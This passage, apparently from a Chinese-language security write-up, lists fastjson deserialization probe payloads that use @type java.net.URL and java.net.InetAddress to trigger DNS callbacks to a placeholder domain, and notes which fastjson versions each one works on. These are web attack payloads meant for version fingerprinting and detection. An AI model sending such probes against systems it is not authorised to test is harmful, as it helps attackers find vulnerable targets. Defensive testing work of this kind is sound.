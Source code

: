   
实验结论：  
可用范围
```
1.2.37
```

  
-
```
1.2.83
```

  
，即fastjson版本>=1.2.37；不可用版本1.2.1-1.2.36。  
  
  
测试语句3：【fastjson>=1.2.9】  

```
Set[{&#34;@type&#34;:&#34;java.net.URL&#34;,&#34;val&#34;:&#34;http://§1§.{{URL}}&#34;}]
```

  
实验结论：  
可用范围
```
1.2.9
```

  
-
```
1.2.83
```

  
，即fastjson版本>=1.2.9；不可用版本1.2.1-1.2.8。  
  
  
测试语句4：【fastjson>=1.2.9】  

```
Set[{&#34;@type&#34;:&#34;java.net.URL&#34;,&#34;val&#34;:&#34;http://§1§.{{URL}}&#34;}
```

  
实验结论：  
可用范围
```
1.2.9
```

  
-
```
1.2.83
```

  
，即fastjson版本>=1.2.9；不可用版本1.2.1-1.2.8。  
  
  
测试语句5：【1.2.9<=fastjson<=1.2.47】  

```
{&#34;name&#34;:{&#34;@type&#34;:&#34;java.net.InetAddress&#34;,&#34;val&#34;:&#34;§1§.{{URL}}&#34;}}
```
